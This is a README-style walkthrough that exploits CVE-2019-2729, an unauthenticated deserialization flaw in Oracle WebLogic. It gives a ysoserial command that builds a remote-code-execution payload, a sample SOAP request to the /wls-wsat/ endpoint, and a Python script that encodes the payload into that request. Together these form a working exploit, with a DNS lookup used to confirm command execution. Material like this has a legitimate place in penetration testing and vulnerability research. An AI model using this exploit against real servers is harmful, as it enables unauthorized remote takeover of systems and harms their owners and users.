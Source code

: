 
# Exploiting CVE-2019-2729 WebLogic Deserialization Vulnerability

## Introduction

CVE-2019-2729 is a Java deserialization vulnerability in Oracle WebLogic
versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0.  Serialized Java objects are
accepted anonymously via an HTTP service and deserialized.  Remote code
execution is possible without authentication.

This exploit was tested against WebLogic 10.3.6.0.

A typical vulnerable server will have HTTP services listening on one or more
TCP ports which have a web application at `/wls-wsat/`.

## Generate a payload with ysoserial

First, get ysoserial (https://github.com/frohoff/ysoserial) and use it to
generate a simple RCE payload.

```
java -jar ysoserial-0.0.5-all.jar Jdk7u21 "nslookup test222.ourns.example.com" > payload
```

Here, we generate a payload using ysoserial which will do a DNS lookup that
we'll be able to monitor.  The `payload` file contains a serialized Java
`LinkedHashSet` object which will run this command.

Note that the ysoserial payload generator used here, named Jdk7u21, only
works under JRE version 7u21 and earlier (see
https://gist.github.com/frohoff/24af7913611f8406eaf3), however that seems to
be standard with WebLogic 10.3.6.0.  You might have to use a different
payload for newer versions of WebLogic. The advantage to Jdk7u21 is the lack
of any dependencies in the server's classpath.

## Transform the payload into SOAP

Next, we need to massage this blob into a SOAP HTTP request body.  The
affected web services accept SOAP requests containing Java objects encoded
in Java's `XMLEncoder` format.  An example request showing the format:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.0.3.8:8200
SOAPAction:
Content-Type: text/xml
Content-Length: 204219

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java>
    <array method="forName">
     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
     <void>
      <array class="byte" length="3">
       <void index="0">
        <byte>1</byte>
       </void>
       <void index="1">
        <byte>2</byte>
       </void>
       <void index="2">
        <byte>3</byte>
       </void>
      </array>
     </void>
    </array>  
   </java>
  </work:WorkContext>   
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

The payload generated above needs to be stuffed into a `byte[]` array by the
server. The following python script will generate the required request body
and write it to a file named `payload_encoded`.

```
of = open('payload_encoded','w')
payload = open('payload').read()

of.write('<?xml version="1.0" encoding="utf-8"?>\n')
of.write('<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">\n')
of.write(' <soapenv:Header>\n')
of.write('  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">\n')
of.write('   <java>\n')
of.write('    <array method="forName">\n')
of.write('     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>\n')
of.write('     <void>\n')
of.write('      <array class="byte" length="%d">\n' % len(payload) )

for i in range(len(payload)):
    byte = payload[i]
    v = ord(byte)
    if v >= 128:
        v = -256+v
    of.write('       <void index="%d">\n' % i)
    of.write('        <byte>%d</byte>\n' % v)
    of.write('       </void>\n')

of.write('      </array>\n')
of.write('     </void>\n')
of.write('    </array>\n')
of.write('   </java>\n')
of.write('  </work:WorkContext>\n')
of.write(' </soapenv:Header>\n')
of.write(' <soapenv:Body/>\n')
of.write('</soapenv:Envelope>\n')
```

Next, send the generated request body to the affected service via a `POST`
request to `/wls-wsat/CoordinatorPortType`. The entire resulting HTTP
request should look just like the example above but much longer.

The server will return a 500 response, however you should see your DNS
lookup and therefore now have remote command execution.

